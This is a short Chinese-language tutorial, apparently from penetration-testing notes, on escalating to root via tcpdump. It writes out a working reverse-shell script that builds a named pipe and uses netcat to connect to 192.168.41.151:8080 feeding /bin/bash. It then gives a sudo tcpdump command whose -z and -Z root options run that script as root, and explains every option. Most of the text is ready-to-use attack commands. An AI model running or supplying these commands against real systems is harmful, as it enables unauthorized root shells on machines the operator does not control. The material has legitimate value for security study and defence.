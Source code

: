 ### tcpdump 指令提权

编辑一个 `shell.sh` 文件

```bash
mknod backpipe p && nc 192.168.41.151 8080 0<backpipe | /bin/bash 1>backpipe
```

- `mknod backpipe p`
  - `mknod`：创建特殊文件
  - `backpipe`：文件名
  - `p`：表示 **命名管道（named pipe / FIFO）**
     ✅ 功能：创建一个**双向通道**，让两个进程可以通过它通信
- `&&`
  - 表示“前一个命令成功才执行后面的命令”
  - 保证管道创建成功后再继续

- `nc 192.168.41.151 8080`
  - netcat 命令，连接到远程 IP `192.168.41.151` 的端口 `8080`
  - 作用：建立一个 TCP 连接（反弹连接）
- `0<backpipe`
  - 将标准输入（stdin）重定向为 `backpipe`
  - 意思是 bash shell 的输入来自这个管道
- `/bin/bash`
  - 启动一个新的 bash shell
  - 输入来自管道，输出重定向到管道
- `1>backpipe`
  - 将标准输出（stdout）重定向到同一个管道
  - 所以 bash 的输出会回传给 netcat
- `|` 管道
  - 将 netcat 的输出送入 bash 的输入
  - 实现双向通信

**（记得加执行权限）**

![](https://pic1.imgdb.cn/item/68d367bac5157e1a882c6f71.png)

```
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell.sh -Z root
```

| 参数               | 含义                                         |
| ------------------ | -------------------------------------------- |
| `sudo`             | 以 root 权限运行 tcpdump                     |
| `tcpdump`          | 网络抓包工具                                 |
| `-l`               | 行缓冲，方便实时输出                         |
| `-n`               | 不做 DNS 解析，显示 IP                       |
| `-i eth0`          | 指定抓包接口 eth0                            |
| `-w /dev/null`     | 抓包数据写入 `/dev/null`，即丢弃数据         |
| `-W 1`             | 指定最多轮转 1 个抓包文件                    |
| `-G 1`             | 每 1 秒轮转一次抓包文件                      |
| `-z /tmp/shell.sh` | 每轮转抓包文件后执行指定脚本 `/tmp/shell.sh` |
| `-Z root`          | 用 root 权限执行 `-z` 脚本                   |

![](https://pic1.imgdb.cn/item/68d3666ac5157e1a882c6c8b.png)